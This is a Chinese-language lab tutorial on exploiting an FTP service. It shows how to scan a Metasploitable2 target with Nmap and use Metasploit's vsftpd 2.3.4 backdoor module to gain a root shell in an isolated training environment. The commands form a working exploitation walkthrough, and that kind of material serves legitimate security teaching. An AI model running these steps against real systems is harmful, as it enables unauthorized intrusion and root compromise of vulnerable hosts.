







# 利用 FTP 服务漏洞进行攻击

## 一、实验简介

### 1.1 实验介绍

本实验主要利用 FTP 服务漏洞进行攻击。实验环境基于实验楼的 Kali 和所要渗透的目标靶机 Metasploitable2。在这次的实验中，将为大家展示，如何通过 MSF 操作，一步一步地将对方主机攻陷。

**注意：实验用的云主机因为配置成本较高，会限制次数，每个实验不超过6次**

### 1.2 实验知识点

实验通过对实验楼目标靶机 Metasploit 的渗透扫描，找到漏洞 `FTP` 服务，并选择相应的模块进行渗透攻击。本实验的主要知识点如下：

- FTP 漏洞原理
- Nmap 渗透扫描基础
- Metasploit 攻击 FTP 流程
- 渗透成功后验证

### 1.3 实验环境

实验在实验楼的环境中进行，本实验由实验楼提供两台虚拟机，分别是攻击机和目标靶机。这两台虚拟机的主机名称，主机名，以及 IP 地址分别如下：

| 主机     | 主机名称        | 主机名 | IP 地址         |
| -------- | --------------- | ------ | --------------- |
| 攻击机   | Kali Linux 2.0  | Kali   | 192.168.122.101 |
| 目标靶机 | Metasploitable2 | target | 192.168.122.102 |


## 二、环境启动

### 2.1 实验环境启动

在实验桌面中，双机 Xfce 终端，打开终端，后续所有的操作命令都在这个终端中输入。


首先使用 `virsh list` 命令查看当前环境中虚拟机的列表和状态，注意需要使用 sudo，另外需要加上参数 `--all` 才会显示所有关机状态的虚拟机：


然后我们使用 `virsh start` 命令启动虚拟机，再次查看状态虚拟机已经进入 running 状态：


注意由于虚拟机启动需要时间，大概要等四分钟左右我们就可以使用 SSH 访问两台虚拟机了。

首先使用 SSH 连接到 Kali，我们大部分的攻击操作都需要在 Kali 虚拟机中进行，注意用户名root，密码 toor 是不显示的，使用命令 `ssh root@kali` 即可，因为当前实验环境中已经把 IP 地址和主机名的对应写入到了 `/etc/hosts` 文件中，避免输入不好记的 IP 地址：


现在两台实验环境都已经启动，我们可以开始渗透测试实验了。

## 三、 渗透测试

### 3.1 漏洞原理

FTP 服务安全漏洞原理：

> FTP 即为文件传输协议（File Transfer Protocol）是用于在网络上进行文件传输的一套标准协议。它属于网络传输协议的应用层。FTP 是一个8位的客户端-服务器协议，能操作任何类型的文件而不需要进一步处理，就像 MIME 或 Unicode 一样。

FTP Bounce Attack (FTP 跳转攻击)是利用 FTP 规范中的漏洞来攻击知名网络服务器的一种方法，并且使攻击者很难被跟踪。首先攻击者通过 FTP 服务器发送一个 FTP "PORT" 命令给目标 FTP 服务器，其中包含该主机的网络地址和被攻击的服务的端口号。这样，客户端就能命令 FTP 服务器发一个文件给被攻击的服务。

### 3.2 漏洞扫描

渗透扫描在渗透攻击中，占据着非常重要的角色。正所谓磨刀不误砍柴工，想要渗透攻陷对方的目标主机，第一步所要做的事情，就是进行情报搜集，即渗透扫描。

渗透扫描，我们一般使用扫描神器 Nmap 对即将要渗透的目标主机的端口进行扫描。其中，Nmap (Network Mapper(网络映射器) 是一款开放源代码的网络探测和安全审核的工具。它的设计目标是快速地扫描大型网络，你也可以用它扫描单个主机。

好了，接下来，我们首先在终端中，打开 `postgresql` 服务，在 Kali 终端中，输入命令如下：

```
# 打开 postgresql 服务
sudo service postgresql start

```



接着在实验楼的 Kali 终端中，输入命令，打开 MSF 终端：

```
# 打开终端 MSF
sudo msfconsole
```


使用扫描神器 Nmap 对渗透的目标主机，进行扫描：

```
# 使用 nmap 进行扫描
nmap -sV -T4 target
```



| 参数  | 参数所代表含义                                               |
| ----- | ------------------------------------------------------------ |
| `-sV` | 扫描目标主机端口，并显示详细端口信息                         |
| `-T4` | 设定 nmap 扫描的时间策略，数字为0-6，越大越快。扫描的越慢则越不容易被发现，也不会给目标带来太大的网络流量 |

根据扫描结果，由图可以看出，我们所需要的渗透漏洞服务 FTP 的端口号为 `2121`，端口状态为开放 `open`。

接下来对所要攻击的端口服务，进行 `search` 模块搜索：

```
# 使用 search 模块对模块进行搜索

# 如果大家在这一步搜索的结果特别慢也不要担心，老师已经将搜索结果截图给大家看了，这一步不会影响后续的操作

# 这一步操作，只是为了让实验的同学，更清楚地知道有这么一个过程，search 搜索结果截图如下

search scanner/ftp
```




在 Kali 的 MSF 终端中，使用 `use` 命令，使用相应的模块：
```
# 使用 use 命令，使用相应的模块
use auxiliary/scanner/ftp/ftp_version 

```

接着再使用 `show options` 命令，显示模块参数信息：

```
# 使用命令 show options 查看模块属性名
show options
```

然后使用 `set` 命令，对所要渗透的目标主机进行渗透

```
# 使用 set 命令设置所需要渗透的主机
set RHOSTS 192.168.122.102
```


一切就绪后，再使用 `exploit` 进行主机攻击：

```
# 使用 exploit 命令进行攻击
exploit
```


由 `exploit` 拿到所要渗透的目标主机的 `ftp` 版本号，接着在实验楼的 Kali 的 MSF 终端中，使用 `search` 搜索相应模块：

```
# 拿到 ftp 版本号后，开始用 search 搜索相应模块
search vsFTPd 
```



使用 `use` 命令，使用相应的攻击模块：

```
# 使用 use 命令，使用相应模块功能
use exploit/unix/ftp/vsftpd_234_backdoor

```


接着再使用 `show` 命令，查看该模块所必填的参数：

```
# 使用 show 命令，查看相应的参数设置
show options
```
再下一步，我们继续使用 `set` 命令，设置必要的参数，如所要渗透的目标主机： 



```
# set 命令，设置相应要渗透的目标主机参数
set RHOST 192.168.122.102
```


最后一步，使用 `exploit` 对目标主机进行渗透攻击：

```
# 输入 exploit 命令，进行攻击
exploit
```


# 四、验证渗透攻击

### 4.1 验证渗透是否成功

验证渗透是否成功常用的三个命令：`whoami` 和 `hostname` 以及 ip 地址查看命令：`ifconfig`：


```
# 验证是否成功，查看当前的用户名
whoami

# 由 hostname 查看主机的名字
hostname

# 由 ifconfig 命令查看渗透主机的 ip 地址
ifconfig
```



由图可知，在输入命令 `whoami`后，输出的是 `root`，输入命令 `hostname`后，输出的是 `Metasploitable2`，以及由命令 `ifconfig` 可知道，所登录的目标渗透主机的 ip 地址为 `192.168.122.102`,由显示数据看出，所进行的渗透测试已经成功。


## 五、总结

### 5.1 实验总结

本实验主要介绍了渗透攻击 FIP 服务的流程。对 Metasploit 的攻击步骤，进一步进行演示，每一个步骤，在实验的讲解中，都配有图片。

在该攻击的过程中，我们首先搜索了该 FTP 模块的漏洞，接着搜索到 FTP 版本漏洞，然后在 MSF 中搜索是否有相应模块，接着使用了搜索到的模块，设置必要参数，进行渗透攻击，成功。

在学完这个课程后，你至少明白了这些知识点：

- FTP 漏洞原理
- Nmap 渗透扫描基础
- Metasploit 攻击 FTP 流程，在攻击的过程中，search 的使用
- 渗透成功后输入命令进行验证

## 六、推荐阅读

### 6.1 推荐阅读

该实验所介绍的 FTP 是比较常见的漏洞，在进行该漏洞的扫描过程中，要学会不断的进行漏洞分析，设置一些常见的必要参数，下面这篇是国外的一篇攻击该漏洞的文章，有兴趣的同学可以阅读一下，提高对该漏洞的理解能力：

> https://www.offensive-security.com/metasploit-unleashed/scanner-ftp-auxiliary-modules/

以及这个，所介绍的两篇，都为英文，因为在国外，所以可能要翻墙：

> https://pentestlab.blog/2012/03/01/attacking-the-ftp-service/


## 七、课后作业

### 7.1 课后作业

实验主要讲述 FTP 服务漏洞，希望大家能够按照实验的步骤，一步一步跟着老师，掌握该 FTP 漏洞的攻击方法，下面是留给大家的课后作业：

- 掌握 Kali 漏洞扫描工具 Nmap 的使用
- 掌握攻击 FTP 服务流程，学会分析 FTP 的攻击方法
- 阅读推荐阅读的课后文档（可选）

对于不懂的问题，都可随时在[实验楼问答](https://www.shiyanlou.com/questions)中提出，与老师和同学一起交流。